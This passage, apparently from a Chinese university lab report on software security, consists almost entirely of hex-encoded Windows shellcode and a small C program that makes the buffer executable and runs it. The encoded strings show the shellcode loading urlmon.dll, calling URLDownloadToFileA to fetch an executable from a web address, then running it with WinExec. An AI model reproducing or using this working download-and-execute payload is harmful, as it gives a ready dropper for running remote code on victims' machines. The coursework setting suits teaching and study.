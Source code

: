 ```
"\x31\xc9\x64\x8b\x41\x30\x8b\x40\x0c\x8b\x70\x14\xad\x96\xad\x8b\x48\x10\x8b\x59\x3c\x01\xcb\x8b\x5b\x78\x01\xcb\x8b\x73\x20\x01\xce\x31\xd2\x42\xad\x01\xc8\x81\x38\x47\x65\x74\x50\x75\xf4\x81\x78\x04\x72\x6f\x63\x41\x75\xeb\x81\x78\x08\x64\x64\x72\x65\x75\xe2\x8b\x73\x1c\x01\xce\x8b\x14\x96\x01\xca\x31\xf6\x89\xd6\x89\xcf\x31\xc0\x50\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\x51\xff\xd2\x83\xc4\x0c\x31\xc9\x68\x6c\x6c\x41\x41\x88\x4c\x24\x02\x68\x6f\x6e\x2e\x64\x68\x75\x72\x6c\x6d\x54\xff\xd0\x83\xc4\x0c\x31\xc9\x68\x65\x41\x42\x42\x88\x4c\x24\x02\x68\x6f\x46\x69\x6c\x68\x6f\x61\x64\x54\x68\x6f\x77\x6e\x6c\x68\x55\x52\x4c\x44\x54\x50\xff\xd6\x83\xc4\x14\x50\x58\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x32\x30\x32\x30\x68\x50\x43\x51\x51\x68\x45\x58\x45\x2f\x68\x43\x51\x51\x5f\x68\x51\x51\x2f\x50\x68\x62\x2f\x50\x43\x68\x71\x71\x77\x65\x86\x63\x6f\x6d\x2f\x86\x2e\x71\x71\x2e\x86\x64\x6f\x77\x6e\x86\x73\x3a\x2f\x2f\x86\x68\x74\x74\x70\x54\x59\x31\xdb\x53\x68\x2e\x65\x78\x65\x68\x70\x79\x6c\x64\x54\x5b\x31\xd2\x50\x52\x52\x53\x51\x52\xff\xd0\x59\x83\xc4\x2c\x31\xd2\x39\xd0\x51\x75\xae\x5a\x31\xd2\x68\x73\x41\x42\x42\x88\x54\x24\x02\x68\x62\x75\x74\x65\x68\x74\x74\x72\x69\x68\x69\x6c\x65\x41\x68\x53\x65\x74\x46\x54\x57\xff\xd6\x83\xc4\x14\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x32\x30\x32\x30\x68\x50\x43\x51\x51\x54\x59\x31\xd2\x83\xc2\x02\x52\x51\xff\xd0\x83\xc4\x08\x31\xc9\x68\x78\x65\x63\x41\x88\x4c\x24\x03\x68\x57\x69\x6e\x45\x54\x57\xff\xd6\x83\xc4\x08\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x32\x30\x32\x30\x68\x50\x43\x51\x51\x54\x59\x31\xd2\x52\x51\xff\xd0\x83\xc4\x08\x31\xc9\x68\x65\x73\x73\x41\x88\x4c\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x54\x57\xff\xd6\xff\xd0";

int main(int argc, char **argv) 
{
	int(*func)();
	DWORD dwOldProtect;
	func = (int(*)()) shellcode;
	VirtualProtect(func, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &dwOldProtect);
	(int)(*func)();
}
```
- 实验结果：  
![](img/06.JPG)  
![](img/07.JPG)

## 参考资料：
- [实验报告](https://github.com/Great-Lin999/SoftwareAndSystemSecurity/blob/master/ShellCode/ShellCode.md)
- [实验报告](https://github.com/YanhuiJessica/2020-SSS-Public-YanhuiJessica/blob/master/lab0x05%20Shellcode/README.md)